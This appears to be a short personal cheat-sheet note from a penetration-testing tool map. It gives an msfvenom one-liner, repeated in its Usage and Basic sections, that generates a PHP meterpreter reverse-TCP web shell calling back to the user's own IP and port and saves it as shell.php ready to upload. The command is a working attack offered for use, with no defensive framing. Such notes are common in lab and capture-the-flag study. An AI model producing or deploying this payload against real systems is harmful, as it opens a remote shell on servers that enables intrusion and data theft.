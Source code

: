 ```yaml
---
date: 2022-06-23
modified: 2022-07-15
---
```

## Metadata
up:: [[Toolmap]]

---
## Info
```ad-info
title: =
```
---
## Usage
```bash
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n'> shell.php && pbpaste >> shell.php
```
## Note
### Basic
```bash
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n'> shell.php && pbpaste >> shell.php
```
### ALL Param

